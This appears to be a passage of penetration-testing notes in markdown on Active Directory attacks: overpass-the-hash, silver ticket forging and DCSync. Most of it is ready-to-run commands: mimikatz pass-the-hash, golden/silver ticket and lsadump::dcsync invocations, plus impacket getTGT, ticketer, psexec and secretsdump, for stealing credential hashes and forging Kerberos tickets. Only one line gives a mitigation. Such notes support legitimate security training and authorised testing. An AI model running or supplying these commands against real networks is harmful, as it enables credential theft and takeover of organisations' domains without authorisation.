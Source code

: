 ##### Pass the key / Over Pass the Hash
- it is a combination of passing the hash and passing the ticket
- Over pass the hash is a specific kind of pass the key where the attacker uses the rc4 key (nt hash)
- the idea is to use the NT hash (or AES key) to get a kerberos ticket (TGT), then pass the ticket
- <b>it IMPORTANT to use the hostname, not only the ip address, when authenticating with kerberos</b>
- impacket:
    - Get the ticket: 
        * `impacket-getTGT -hashes :$HASH corp.com/user -dc-ip $dcAddress`
            - for aes, change `-hashes` by `-aesKey`
    - Pass the ticket: 
        * `export KRB5CCNAME=$(pwd)/user.ccache`
        * `impacket-psexec -k -no-pass ...`
- mimikatz:
    - `.\mimikatz.exe "privilege::debug" "sekurlsa::pth /domain:corp.com /user:$USER /rc4:$ntHASH" "exit"`

### Active Directory - Persistence

#### Silver Ticket (forging TGS tickets)
- Idea: forge TGS tickets using NT hash of the service account
- TGS is double signed
    - With NT hash of the account that is running the service
    - And with the NT hash of krbtgt
- Services can check only their own signature
- This optional verification between the SPN application and the KDC is called **PAC validation**
- If PAC validation is disabled and the attacker get NT hash or password of the service account, he can forge service tickets (TGS)
- these are the `silver tickets`
- Creating Silver Tickets
    - $SERVICEHASH -> NT hash of service account -> extract from memory
    - $DOMAINSID -> domain user SID removing RID (whoami /user)
    - $DOMAIN -> corp.com
    - $TARGETMACHINE -> web.target.com (apparently cannot be an ip address for mimikatz and http service )
    - $VALIDUSER -> existing domain user
    - Mimikatz
        - `mimikatz "kerberos::golden /sid:$DOMAINSID /domain:$DOMAIN /target:$TARGETMACHINE /service:http /rc4:$SERVICEHASH /user:$VALIDUSER /ptt" "exit"`
        - `klist` (it checks loaded tickets, and allows remove them using purge)
        - `iwr -UseDefaultCredentials http://$TARGETMACHINE`
    - Impacket
        * `impacket-ticketer -nthash $SERVICEHASH -domain-sid $DOMAINSID -domain $DOMAIN -spn cifs/$TARGETMACHINE $VALIDUSER`
        * `export KRB5CCNAME='/path/to/validuser.ccache'`
        * `impacket-psexec -k $SERVICEMACHINE`
- Mitigation: Enable PAC validation

#### Domain Controller Syncronization (dcsync attack)
- more stealthy way to get hashes from ntds 
- act as another DC asking for information
- the account needs to have the privileges: Replicating Directory Changes, Replicating Directory Changes All and Replicating Directory Changes in Filtered Set
    - default for members of Domain Admins, Enterprise Admins, and Administrators
- get from a specific user using domain-joined windows: `.\mimikatz.exe "lsadump::dcsync /dc:$DC /domain:$DOMAIN /user:krbtgt" "exit"`
- get from all domain users: `impacket-secretsdump -just-dc corp.com/Administrator:password@domaincontroller`
